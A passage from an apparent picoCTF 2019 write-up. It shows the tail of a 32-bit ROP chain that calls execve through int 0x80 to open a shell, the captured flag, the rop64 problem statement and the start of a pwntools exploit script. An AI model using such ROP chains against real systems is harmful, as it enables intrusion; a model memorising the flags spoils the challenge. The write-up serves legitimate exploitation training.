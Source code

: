 ```python
p += pack('<I', 0x080da060) # padding without overwrite ebx
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056420) # xor eax, eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x08049563) # int 0x80

sh.sendlineafter('?\n', p)

sh.interactive()
```

flag: `picoCTF{rOp_t0_b1n_sH_cb4c373e}`

# rop64

## Problem

Time for the classic ROP in 64-bit. Can you exploit this program to get a flag? You can find the program in /problems/rop64_5_7608f52be26a84e5625c50ba7adb22e0 on the shell server. Source.

[Binary](/blog/picoctf-2019-writeup/binary-exploitation/rop64/vuln)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/rop64/vuln.c)

## Solution

Same approach as [rop32](#rop32).

Exploit script:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './vuln'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

```